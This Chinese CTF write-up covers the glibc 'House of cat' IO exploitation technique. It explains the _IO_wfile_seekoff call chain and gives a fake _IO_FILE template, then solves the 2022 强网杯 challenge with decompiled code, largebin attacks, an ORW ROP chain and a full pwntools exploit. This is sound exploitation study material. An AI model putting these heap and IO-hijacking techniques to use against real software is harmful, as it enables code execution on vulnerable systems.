


# 新型 IO 利用方法初探—House of cat 学习利用 - 先知社区

新型 IO 利用方法初探—House of cat 学习利用

- - -

# 新型 IO 利用方法初探——House of cat 学习利用

# 前言

从这里开始就是对于现在比赛中新发现的并且利用效果优秀受到广泛好评的 IO 攻击利用方法了，主要就是House of cat 和 House of apple，先从House of cat 开始，记录学习的过程

# 简介与知识学习

House of cat 是 catf1y 师傅在2022年5月发现并总结的一种新型Glibc IO 利用方式，取自2022年强网杯的同名题

原文链接：[House of cat新型glibc中IO利用手法解析 && 第六届强网杯House of cat详解](https://bbs.kanxue.com/thread-273895.htm)

## 前置知识

House of emma：[第七届“湖湘杯” House \_OF \_Emma](https://bbs.kanxue.com/thread-270429.htm)

## 利用思路

house of cat 实际上承袭了House of emma的利用思路，依然是通过修改虚表指针的偏移来劫持程序的 IO 流来进行攻击，House of emma 利用的是 `_IO_cookie_jumps` 虚表中的函数指针，并且需要攻击`TLS`上的 `pointer_chk_guard`（有时还需要爆破偏移）。而House of cat 利用的是 `_IO_wfile_jumps` 函数中的 `_IO_wfile_seekoff`函数再转调用 `_IO_switch_to_wget_mode` 来进行攻击

具体调用链如下：

\_IO\_wfile\_jumps ——> \_IO\_wfile\_seekoff ——> \_IO\_switch\_to\_wget\_mode(fp)

结构如图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001257-d860432c-7f1a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001300-da404d86-7f1a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001303-dc38a7b4-7f1a-1.png)

这条调用链避免了之前 House of emma 中绕过检测 `TLS` 上 `_pointer_chk_guard` 的检测相关的IO函数的调用的操作，使攻击和调用变得更加简单。

同时也避免了House of emma 中可能因为 stderr 的指针存放在 bss 段上而无法篡改，并且exit调用中存在调用指针保护的函数指针执行，使得无法执行正确的函数地址无法进行FSOP的问题，使 House of cat 在 FSOP 也可以进行，具体的操作方法为：改虚表 `vtable` 指针为 `_IO_wfile_jumps+0x10` 并结合 \_malloc\_assert食用

## 利用条件

1.  能**任意写**一个**可控**地址（如largebin attack）
    
2.  能泄露 libc 地址和 heap 地址
    
3.  能触发 **IO 流**（三种方式）
    
    a. 调用exit或从main退出
    
    b. puts、printf函数调用
    
    c. \_malloc\_assert
    

## 利用流程分析

### 一、分析源码

源码 \_IO\_wfile\_seekoff

```plain
off64_t
_IO_wfile_seekoff (FILE *fp, off64_t offset, int dir, int mode)
{
  off64_t result;
  off64_t delta, new_offset;
  long int count;

  if (mode == 0)
    return do_ftell_wide (fp);
  int must_be_exact = ((fp->_wide_data->_IO_read_base
            == fp->_wide_data->_IO_read_end)
               && (fp->_wide_data->_IO_write_base
               == fp->_wide_data->_IO_write_ptr));
#需要绕过was_writing的检测
  bool was_writing = ((fp->_wide_data->_IO_write_ptr
               > fp->_wide_data->_IO_write_base)
              || _IO_in_put_mode (fp));

  if (was_writing && _IO_switch_to_wget_mode (fp))
    return WEOF;
......
}
```

其中引用了一个fp结构体来作为内函数调用的参数，此时若我们伪造fp结构体绕过上述的 must\_be\_exact 和 was\_writing 检查函数，即：

`(fp->_wide_data->_IO_read_base== fp->_wide_data->_IO_read_end) && (fp->_wide_data->_IO_write_base== fp->_wide_data->_IO_write_ptr)`

`(fp->_wide_data->_IO_write_ptr>fp->_wide_data->_IO_write_base) || _IO_in_put_mode (fp)`

就可以执行 `_IO_switch_to_wget_mode (fp)` 函数了

源码 \_IO\_switch\_to\_wget\_mode (fp)

```plain
int
_IO_switch_to_wget_mode (FILE *fp)
{
  if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF)
      return EOF;
  ......
}
```

绕过 `fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base` 检查后会调用一个 `(wint_t)_IO_WOVERFLOW (fp, WEOF)` 函数，而这个函数是glibc在宏中定义的

```plain
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)
```

让我们看看这个函数中干了什么

```plain
0x7ffff7c83cb0 <_IO_switch_to_wget_mode>        endbr64 
0x7ffff7c83cb4 <_IO_switch_to_wget_mode+4>      mov    rax, qword ptr [rdi + 0xa0]
0x7ffff7c83cbb <_IO_switch_to_wget_mode+11>     push   rbx
0x7ffff7c83cbc <_IO_switch_to_wget_mode+12>     mov    rbx, rdi
0x7ffff7c83cbf <_IO_switch_to_wget_mode+15>     mov    rdx, qword ptr [rax + 0x20]
0x7ffff7c83cc3 <_IO_switch_to_wget_mode+19>     cmp    rdx, qword ptr [rax + 0x18]
0x7ffff7c83cc7 <_IO_switch_to_wget_mode+23>     jbe    _IO_switch_to_wget_mode+56
0x7ffff7c83cc9 (_IO_switch_to_wget_mode+25) ◂— mov rax, qword ptr [rax + 0xe0]
0x7ffff7c83cd5 (_IO_switch_to_wget_mode+37) ◂— call qword ptr [rax + 0x18]
```

主要是以下几个代码发挥作用

```plain
mov    rax, qword ptr [rdi + 0xa0]
 mov    rdx, qword ptr [rax + 0x20]
 mov    rax, qword ptr [rax + 0xe0]
 call   qword ptr [rax + 0x18]
```

1.  rax1 = \[rdi+0xa0\]
2.  rdx = \[rax + 0x20\]
3.  rax2 = \[rax + 0xe0\]
4.  call \[rax + 0x18\]

然后看看 rdi 此时的状态

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001317-e43b0aba-7f1a-1.png)

rdi是一个堆地址，那么此时我们可以想到可以控制这个堆地址来进行一系列操作

泄露libc后，rdi、rax、rdx我们就都可以自主控制了，而利用这个 `call [rax + 0x18]` 汇编代码我们就可以执行我们控制的rax寄存器的地址，有两种调用思路：

**开启沙箱**，我们可以把最后调用的**\[rax + 0x18\]**设置为 `setcontext` ，把rdx设置为可控的堆地址，就能执行`srop`读取flag；

**未开启沙箱**，则只需把最后调用的**\[rax + 0x18\]**设置为 `system` 函数，把 `fake_IO` 的头部（即rdi）写入/bin/sh字符串，就可执行system("/bin/sh")

### 二、攻击方式

也是两种方式：

1.  修改 `_IO_list_all` 为可控地址,在可控地址中伪造 `fake_IO` 结构体，利用 `FSOP` 触发
2.  修改 `stderr` 为可控地址，在可控地址中伪造 `fake_IO` 结构体，利用 `malloc_assert` 触发

### 三、fake\_io构造

检测绕过

其实就是在 \_IO\_wfile\_seekoff 中

```plain
(fp->_wide_data->_IO_read_base== fp->_wide_data->_IO_read_end) && (fp->_wide_data->_IO_write_base== fp->_wide_data->_IO_write_ptr)
```

在catf1y师傅的原文里有构造模版

如下：

```plain
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```

call\_addr：setcontext 或 system 的地址

\_IO\_backup\_base：执行函数时的rdx

\_flags：执行函数时的rdi

注：若FSOP需将vtable改为IO\_wfile\_jumps+0x30

# 例题：2022强网杯 house of cat

## ida分析

有一个登录模块

```plain
__int64 __fastcall sub_1DF3(__int64 a1)
{
  __int64 result; // rax
  unsigned int v2; // eax
  char *v3; // [rsp+18h] [rbp-8h]

  if ( *(a1 + 8) == 1 && !strcmp(*(a1 + 16), "admin") )
    dword_4040[0] = 1;
  result = *(a1 + 8);
  if ( result == 3 )
  {
    result = strtok(*(a1 + 16), "$");
    v3 = result;
    if ( result )
    {
      result = dword_4014;
      if ( *v3 == dword_4014 )
      {
        result = dword_4040[0];
        if ( dword_4040[0] )
        {
          sub_161F();
          v2 = sub_1675();
          if ( v2 == 4 )
          {
            return sub_1916();
          }
          else
          {
            if ( v2 <= 4 )
            {
              switch ( v2 )
              {
                case 3u:
                  return sub_188C();
                case 1u:
                  return sub_16DE();
                case 2u:
                  return sub_181B();
              }
            }
            return sub_12D9("error!\n");
          }
        }
      }
    }
  }
  return result;
}
```

```plain
__int64 __fastcall sub_1A50(char *a1, __int64 a2)
{
  char *s; // [rsp+18h] [rbp-28h]
  char *v4; // [rsp+20h] [rbp-20h]
  char *v5; // [rsp+20h] [rbp-20h]
  char *v6; // [rsp+20h] [rbp-20h]
  const char *s2; // [rsp+28h] [rbp-18h]
  char *v8; // [rsp+30h] [rbp-10h]
  const char *s1; // [rsp+38h] [rbp-8h]

  v4 = strstr(a1, "QWB");
  if ( !v4 )
    return 0LL;
  *v4 = 0;
  v4[1] = 0;
  v4[2] = 32;
  v5 = v4 + 3;
  s2 = strtok(a1, " ");
  if ( !strcmp("LOGIN", s2) )
  {
    *(a2 + 8) = 1;
  }
  else if ( *(a2 + 8) || strcmp("DOG", s2) )
  {
    if ( *(a2 + 8) || strcmp("CAT", s2) )
    {
      if ( *(a2 + 8) || strcmp("MONKEY", s2) )
      {
        if ( *(a2 + 8) || strcmp("FISH", s2) )
        {
          if ( *(a2 + 8) || strcmp("PIG", s2) )
          {
            if ( *(a2 + 8) || strcmp("WOLF", s2) )
            {
              if ( *(a2 + 8) || strcmp("DUCK", s2) )
              {
                if ( *(a2 + 8) || strcmp("GOLF", s2) )
                {
                  if ( *(a2 + 8) || strcmp("TIGER", s2) )
                    return 0LL;
                  *(a2 + 8) = 10;
                }
                else
                {
                  *(a2 + 8) = 9;
                }
              }
              else
              {
                *(a2 + 8) = 8;
              }
            }
            else
            {
              *(a2 + 8) = 7;
            }
          }
          else
          {
            *(a2 + 8) = 6;
          }
        }
        else
        {
          *(a2 + 8) = 5;
        }
      }
      else
      {
        *(a2 + 8) = 4;
      }
    }
    else
    {
      *(a2 + 8) = 3;
    }
  }
  else
  {
    *(a2 + 8) = 2;
  }
  v8 = strtok(0LL, " ");
  if ( v8 != strchr(v8, 124) )
    return 0LL;
  *a2 = v8;
  s1 = strtok(0LL, " ");
  if ( strcmp(s1, "r00t") )
    return 0LL;
  s = v5 + 5;
  v6 = strstr(v5, "QWXF");
  if ( !v6 )
    return 0LL;
  *v6 = 0;
  v6[1] = 0;
  v6[2] = 0;
  v6[3] = 32;
  *(a2 + 16) = s;
  return 1LL;
}
```

绕过就不多赘述了，catf1y师傅的文章里讲的很清楚了。

**重点是堆菜单部分**

首先是这个函数

```plain
__int64 sub_155E()
{
  __int64 result; // rax

  result = unk_4168;
  *unk_4160 = unk_4168;
  return result;
}
```

这个unk\_4160地址实际上是tcache堆块的储存地址，不能对tcache堆块赋值，也就是spirit不能用

然后是堆块菜单：

```plain
ssize_t add()
{
  unsigned __int64 v1; // [rsp+0h] [rbp-10h]
  size_t size; // [rsp+8h] [rbp-8h]

  sub_12D9("plz input your cat idx:\n");
  v1 = reading();
  if ( v1 > 0xF || *(&unk_4060 + v1) )
    return sub_12D9("invalid!\n");
  sub_12D9("plz input your cat size:\n");
  size = reading();
  if ( size <= 0x417 || size > 0x46F )
    return sub_12D9("invalid size!\n");
  *(&unk_4060 + v1) = calloc(1uLL, size);
  if ( !*(&unk_4060 + v1) )
    return sub_12D9("error!\n");
  qword_40E0[v1] = size;
  sub_12D9("plz input your content:\n");
  return read(0, *(&unk_4060 + v1), qword_40E0[v1]);
}
```

add中用的是calloc函数，和 House of pig 有点像；然后只能申请 largebin chunk 。

```plain
void delete()
{
  unsigned __int64 v0; // [rsp+8h] [rbp-8h]

  sub_12D9("plz input your cat idx:\n");
  v0 = reading();
  if ( v0 <= 0xF && *(&unk_4060 + v0) )
    free(*(&unk_4060 + v0));
  else
    sub_12D9("invalid!\n");
}
```

delete功能中有UAF漏洞。

```plain
ssize_t show()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  sub_12D9("plz input your cat idx:\n");
  v1 = reading();
  if ( v1 > 0xF || !*(&unk_4060 + v1) )
    return sub_12D9("invalid!\n");
  sub_12D9("Context:\n");
  return write(1, *(&unk_4060 + v1), 0x30uLL);
}
```

```plain
ssize_t edit()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  if ( dword_4010 <= 0 )
    return sub_12D9("nonono!!!!\n");
  --dword_4010;
  sub_12D9("plz input your cat idx:\n");
  v1 = reading();
  if ( v1 > 0xF || !*(&unk_4060 + v1) )
    return sub_12D9("invalid!\n");
  sub_12D9("plz input your content:\n");
  return read(0, *(&unk_4060 + v1), 0x30uLL);
}
```

edit功能只能用两次，也就是说只有两次largebin attack的机会。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001428-0f1f449e-7f1b-1.png)

开启了沙箱，orw都在，但是会检测read的fd。

## 攻击流程

首先main函数也没有 exit 等返回方式，所以无法使用 `FSOP` 来触发 IO 调用链

所以只能利用 伪造 `stderr` 来进行 IO 调用链

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001340-f239b4d6-7f1a-1.png)

而 stderr 不在bss段上，所以要用一次largebin attack来修改 libc 中的 stderr

另一次 largebin attack 需要**稳定触发 IO 调用链**，而 **FSOP 无法使用，且没有malloc函数**的情况下需要修改 `top_chunk size` 来触发`_malloc_assert` 以触发 IO 流操作

那么思路便很清晰了

1.  泄露 libc 地址和 heap 地址为后面的操作打基础
2.  两次 largebin attack 分别修改 `stderr` 和 `top_chunk size`
3.  伪造 fake\_io
4.  触发 \_malloc\_assret 调用 IO 链 （ \_IO\_wfile\_seekoff ——> \_IO\_switch\_to\_wget\_mode ）
5.  执行 orw 的 ROP 链（setcontext+0x61）

**还有一个需要注意的地方**

沙箱对 fd 有检查，所以不能直接设置 rdi，这里catf1y师傅非常巧妙的利用了 `close(0)` 来使flag文件的文件描述符为0以读取flag

## 步骤详解

### 一、泄露 libc 地址和 heap 地址

```plain
add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))
```

largebin chunk还是很好泄露 libc 和 heap 地址的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001402-ff42b614-7f1a-1.png)

### 二、两次largebin attack

```plain
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))
#改stderr
add(5,0x440,"55555")
add(6,0x430,"./flag")
add(7,0x430,"77777")

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))
#改top_chunk size
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001445-18dd82e8-7f1b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001448-1a8c0114-7f1b-1.png)

## 三、构造fake\_io

```plain
fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001456-1f8e1aee-7f1b-1.png)

### 四、\_malloc\_assret

```plain
cat(1)
p.sendlineafter(":",str(10))
gdb.attach(p,'b* (_IO_wfile_seekoff)')
p.sendlineafter(":",str(0x450))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001504-243344fc-7f1b-1.png)

### 五、ROP 链

构造：

```plain
rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001511-28b1c74c-7f1b-1.png)

完整exp：

```plain
from pwn import *
ex = "./pwn"
#context.log_level='debug'
p = process(ex)
elf = ELF(ex)

libc = elf.libc


p.send("LOGIN | r00t QWB QWXFadmin")
#gdb.attach(p,"b *$rebase(0x1DF3)")
#pause()
def dbg():
    gdb.attach(p)
    pause()

def cat(choice):
    p.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff\xff\xff\xff")
    p.sendlineafter("plz input your cat choice:\n",str(choice))

def add(idx,size,content):
    cat(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",content)


def show(idx):
    cat(3)
    p.sendlineafter(":",str(idx))

def free(idx):
    cat(2)
    p.sendlineafter(":",str(idx))


def edit(idx,content):
    cat(4)
    p.sendlineafter(":",str(idx))
    p.sendafter(":",content)


add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

h0 = p.recv(10).ljust(8,b"\x00")

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))

dbg()
pop_rdi =libc_base + 0x000000000002a3e5 # pop rdi ; ret
pop_rsi = libc_base + 0x000000000002be51 # pop rsi ; ret
pop_rdx_r12 = libc_base +0x000000000011f497 # pop rdx ; pop r12 ; ret
pop_rax = libc_base + 0x0000000000045eb0 # pop rax; ret; 
ret = libc_base + 0x0000000000029cd6# ret;
stderr=libc_base+libc.sym['stderr']
setcontext=libc_base+libc.sym['setcontext']
close=libc_base+libc.sym['close']
read=libc_base+libc.sym['read']
puts=libc_base+libc.sym['puts']
syscall_ret=libc_base + 0x0000000000091396 # syscall; ret; 
_IO_wfile_jumps = libc_base +0x2160c0
fake_io_addr = heap_base + 0xb00
rop_addr = heap_base + 0x2050
flag_addr = heap_base + 0x17d0
# _flags = 0 #_IO_read_ptr = 0x421

fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
print(hex(len(fake_struct)))
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))

add(5,0x440,"55555")
dbg()
add(6,0x430,"./flag")
add(7,0x430,"77777")

rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))

cat(1)
dbg()
p.sendlineafter(":",str(10))
gdb.attach(p,'b* (_IO_wfile_seekoff)')
p.sendlineafter(":",str(0x450))

p.interactive()
```

# 总结

跟着 House of cat 学习下来，能明显感觉到比 House of emma 的复杂程度低了不少，原理也简单好懂，调用链明白清晰，是一个不可多得的优秀 IO 攻击方式。
